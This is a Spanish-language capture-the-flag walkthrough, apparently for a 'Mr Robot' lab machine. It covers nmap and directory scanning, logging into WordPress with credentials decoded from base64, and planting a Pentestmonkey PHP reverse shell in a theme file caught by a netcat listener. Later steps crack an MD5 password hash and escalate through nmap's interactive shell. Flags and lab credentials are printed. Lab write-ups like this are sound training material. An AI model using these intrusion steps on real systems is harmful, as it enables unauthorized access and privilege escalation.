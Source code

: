 # Reconocimiento 
--- 
A primera vista esta maquina no nos da mucha información **visible** en la web, ya os aviso que no tenemos que hacer nada en la web ,sino que vamos a juanquear internamente

![Image](1foto.png)

## NMAP
Si realizamos un nmap basico a esta maquina observamos que nos da **3** puertos, Puerto FTP, puerto HTTP y HTTPS
 ~~~~bash
nmap -sV 10.10.92.13  
Starting Nmap 7.93 ( https://nmap.org ) at 2022-11-15 14:54 GMT
Stats: 0:00:22 elapsed; 0 hosts completed (1 up), 1 undergoing Script Scan
NSE Timing: About 50.00% done; ETC: 14:55 (0:00:00 remaining)
Nmap scan report for 10.10.92.13
Host is up (0.068s latency).
Not shown: 997 filtered tcp ports (no-response)
PORT    STATE  SERVICE  VERSION
22/tcp  closed ssh
80/tcp  open   http     Apache httpd
443/tcp open   ssl/http Apache httpd

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 23.05 seconds
~~~~

No nos arroja mucha información importante, vamos a realizar un scanner de directorios usando 
dirsearch.py y obtenemos esto:

## Dirsearch 
~~~~bash
python3 dirsearch.py -u https://10.10.92.13  -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt

  _|. _ _  _  _  _ _|_    v0.4.3                                             
 (_||| _) (/_(_|| (_| )                                                      
Extensions: php, aspx, jsp, html, js | HTTP method: GET | Threads: 25
Wordlist size: 220545

Output File: /home/bardock/repos/dirsearch/reports/https_10.10.92.13/_22-11-15_15-00-19.txt

Target: https://10.10.92.13/

[15:00:19] Starting:                                                         
[15:00:21] 301 -  235B  - /images  ->  https://10.10.92.13/images/
[15:00:21] 200 -    0B  - /sitemap                                          
[15:00:22] 301 -  233B  - /blog  ->  https://10.10.92.13/blog/              
[15:00:22] 301 -    0B  - /rss  ->  https://10.10.92.13/feed/               
[15:00:22] 302 -    0B  - /login  ->  https://10.10.92.13/wp-login.php      
[15:00:23] 301 -  234B  - /video  ->  https://10.10.92.13/video/            
[15:00:23] 301 -    0B  - /feed  ->  https://10.10.92.13/feed/              
[15:00:23] 301 -    0B  - /0  ->  https://10.10.92.13/0/
[15:00:24] 301 -    0B  - /image  ->  https://10.10.92.13/image/            
[15:00:24] 301 -    0B  - /atom  ->  https://10.10.92.13/feed/atom/         
[15:00:25] 301 -  239B  - /wp-content  ->  https://10.10.92.13/wp-content/  
[15:00:26] 301 -  234B  - /admin  ->  https://10.10.92.13/admin/            
[15:00:27] 301 -  234B  - /audio  ->  https://10.10.92.13/audio/            
[15:00:28] 200 -  504KB - /intro                                            
[15:00:30] 200 -    1KB - /wp-login                                         
[15:00:31] 301 -  232B  - /css  ->  https://10.10.92.13/css/                
[15:00:31] 301 -    0B  - /rss2  ->  https://10.10.92.13/feed/              
[15:00:34] 200 -  158B  - /license                                          
CTRL+C detected: Pausing threads, please wait...
[q]uit / [c]ontinue: q
[q]uit / [c]ontinue: q
[s]ave / [q]uit without saving: q
 
Canceled by the user
~~~~

De directorios interesantes encontramos:
- `/license`
- `/wp-content`
- `/wp-login`
- `/robots.txt`

# 1º Flag
----
Examinamos el fichero `/robots.txt` y encontramos una ruta a la 1º flag 
![[Pasted image 20221115164902.png]]

---
![[Pasted image 20221115165022.png]]
1º Flag = 073403c8a58a1f80d943455fb30724b9

## Explotacion 1.0

Examinamos el directorio /license y encontramos algo interesante
![[Pasted image 20221115160421.png]]
# Explotación 2.0
---
Encontramos un codigo "cifrado" en base 64 que cuando desciframos obtenemos
![[Pasted image 20221115160802.png]]
que las credenciales del usuario son:
1. elliot
2. ER28-0652
Asi que regresamos al panel de login de wordpress e introducimos las claves que nos han dado y....

ENTRAMOS!!!

![[Pasted image 20221115161354.png]]

## Explotación wordpress via PHP-revershe shell

Resulta que en la versión de wordpress (4.1.2) es vulnerable a una subida de reverse shell en un tema de PHP.
Usando la plantilla de reverse shell de [Pentestmonkey](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php) Tenemos que suplantar la plantilla y poner esa shell cambiando la variable **IP** y la variable **PORT**  que apuntan a nuestra reverse shell
~~~~bash
nc -lvnp 4444       
listening on [any] 4444 ...
~~~~
En mi caso mi puerto es 4444 y mi IP es XX.XX.XX.XX (poned la IP de tun0 VPN)



![[Pasted image 20221115170810.png]]
Actualizamos el archivo y seguidamente para activar la reverse shell tenemos que apuntar directamente a la palntilla, apuntando a la URL http://10.10.92.13/wp-content/themes/twentyfifteen/404.php para que el php ejecute el codigo de dentro.

~~~bash
nc -lvnp 4444       
listening on [any] 4444 ...
connect to [XX.XX.XX.XX] from (UNKNOWN) [XX.XX.XX.XX] 54519
Linux linux 3.13.0-55-generic #94-Ubuntu SMP Thu Jun 18 00:27:10 UTC 2015 x86_64 x86_64 x86_64 GNU/Linux
 16:19:58 up  1:29,  0 users,  load average: 0.00, 0.01, 0.05
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=1(daemon) gid=1(daemon) groups=1(daemon)
/bin/sh: 0: can't access tty; job control turned off
$ 
~~~
BAM! Tenemos shell
![[Pasted image 20221115172126.png]]

# Explotación, Flag2 y 3
---

Siempre me gusta usar python, asi que vamos a usar una shell interactiva con python `python -c 'import pty; pty.spawn("/bin/bash")'`  y tenemos shell!!! pero aun no tenemos usuario ROOT con lo que eFazo.
No tenemos permisos para ejecutar ni hacer nada, pero en la carpeta del usuario hay un MD5 con la contraseña del usuario 
~~~~bash
daemon@linux:/home/robot$ cat password.raw-md5
cat password.raw-md5
robot:c3fcd3d76192e4007dfb496cca67e13b
~~~~
Introducimos el hash MD5 en internet y nos aparece
![[Pasted image 20221115173155.png]]
En resumen: 
- User: robot
- Pass: abcdefghijklmnopqrstuvwxyz
Realizamos un SU robot para tener permisos SUDO, ahora si que podemos hacer un cat de la flag 
![[Pasted image 20221115173835.png]]
# Privesc y Flag3

Para escalar privilegios primero miramos que comandos y tools podemos ejecutar, mediante este comando

~~~~bash
robot@linux:~$ find / -perm -u=s -type f 2>/dev/null    
find / -perm -u=s -type f 2>/dev/null
/bin/ping
/bin/umount
/bin/mount
/bin/ping6
/bin/su
/usr/bin/passwd
/usr/bin/newgrp
/usr/bin/chsh
/usr/bin/chfn
/usr/bin/gpasswd
/usr/bin/sudo
/usr/local/bin/nmap
~~~~
Y podemos ejecutar el comando nmap!!!


Para escalar privilegios tenemos que tirar de NMAP, ya que la versión 3.81

~~~~bash
robot@linux:~$ nmap -v
nmap -v

Starting nmap 3.81 ( http://www.insecure.org/nmap/ ) at 2022-11-15 16:39 UTC
No target machines/networks specified!
QUITTING!
~~~~

Hay una vulnerabilidad en la version de Nmap qeu nos permite generar una sesion de sh asi que 
ejecutando el comando `nmap --interactive` seguido de `!sh` para generarnos el entorno
Cambiamos al directorio `/root` 
![[Pasted image 20221115175025.png]]
Y ya tenemos la FLAG!!!
Espero que os haya gustado este primer post, teneis por aqui mis redes sociales.
[Linkedin](https://www.linkedin.com/in/marco-carrasco-talan-6b5912198/)
[Github](https://github.com/shell-bomb)
[Youtube](https://www.youtube.com/channel/UCTgM3LdJZjpEpilLJB3piCA)
[Twitter](https://twitter.com/D0vahking)
[Discord](https://discord.gg/UXzFV3Dj8p)


